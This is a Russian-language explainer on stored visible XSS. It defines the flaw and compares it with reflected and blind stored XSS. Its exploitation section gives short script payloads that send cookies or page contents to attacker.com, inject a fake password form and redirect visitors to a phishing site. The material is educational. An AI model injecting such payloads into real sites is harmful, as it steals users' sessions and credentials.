 Хранимая видимая XSS (Stored Visible XSS) — это тип уязвимости, при которой вредоносный код сохраняется на сервере (например, в базе данных, комментариях, сообщениях форума или профилях пользователей) и выполняется в браузере каждого пользователя, который загружает заражённую страницу. В отличие от отражённой XSS, хранимая XSS не требует взаимодействия с жертвой через социальную инженерию, так как вредоносный код уже находится на сервере и автоматически выполняется для всех пользователей.


## Варианты эксплуатации хранимой видимой XSS

1. **Кража файлов cookie**  
    Вредоносный скрипт может быть внедрён в страницу для кражи cookie всех пользователей, которые её посещают.  
    Пример кода:
```
<script>fetch('http://attacker.com/steal?cookie='+document.cookie);</script>
```

2. **Кража личных данных**  
    Злоумышленник может внедрить скрипт, который извлекает личные данные пользователей (например, имена, адреса, номера телефонов) и отправляет их на контролируемый сервер.  
    Пример кода:
```
<script>fetch('http://attacker.com/steal', {method: 'POST', body: document.body.innerHTML});</script>
```

3. **Подмена интерфейса**  
    Вредоносный скрипт может изменить содержимое страницы, добавив поддельные формы или элементы, чтобы обмануть пользователей и заставить их ввести конфиденциальные данные.  
    Пример кода:
```
<script>document.body.innerHTML = '<form action="http://attacker.com/steal"><input type="text" name="password"><input type="submit"></form>';</script>
```

4. **Перенаправление на вредоносные сайты**  
    Злоумышленник может внедрить скрипт, который перенаправляет пользователей на фишинговые или вредоносные сайты.  
    Пример кода:
```
<script>window.location='http://phishing-site.com';</script>
```

5. **Распространение вредоносного ПО**  
    Вредоносный скрипт может загружать и запускать вредоносное ПО на устройствах пользователей, используя уязвимости в браузере или плагинах.


## Отличия от отражённой XSS

1. **Механизм выполнения**
    
    - Хранимая XSS: вредоносный код сохраняется на сервере и выполняется для всех пользователей, которые загружают заражённую страницу.
    
    - Отражённая XSS: вредоносный код передаётся через URL или параметры запроса и выполняется только при открытии специально подготовленной ссылки.

2. **Охват атаки**
    
    - Хранимая XSS: автоматически затрагивает всех пользователей, которые посещают заражённую страницу.
    
    - Отражённая XSS: требует взаимодействия с жертвой (например, перехода по ссылке), что делает её более точечной.

3. **Сложность эксплуатации**
    
    - Хранимая XSS: не требует дополнительных действий со стороны пользователя, так как код уже находится на сервере.
    
    - Отражённая XSS: требует использования социальной инженерии для убеждения жертвы выполнить вредоносный запрос.

4. **Длительность воздействия**
    
    - Хранимая XSS: может оставаться активной долгое время, пока вредоносный код не будет удалён с сервера.
    
    - Отражённая XSS: действует только в момент выполнения запроса.

## Отличия от хранимой слепой XSS

1. **Видимость выполнения**
    
    - Хранимая видимая XSS: вредоносный код выполняется непосредственно в браузере пользователя, и результат его работы может быть виден на странице.
    
    - Хранимая слепая XSS: вредоносный код выполняется в контексте, который не отображается напрямую пользователю (например, в админ-панели или логах).

2. **Цель атаки**
    
    - Хранимая видимая XSS: обычно направлена на обычных пользователей, которые посещают заражённую страницу.

    - Хранимая слепая XSS: часто направлена на администраторов или внутренние системы, где вредоносный код может быть выполнен в контексте привилегированного пользователя.

3. **Сложность обнаружения**
    
    - Хранимая видимая XSS: может быть легко обнаружена, так как результат выполнения кода виден на странице.

    - Хранимая слепая XSS: сложнее обнаружить, так как результат выполнения кода не отображается напрямую пользователю.

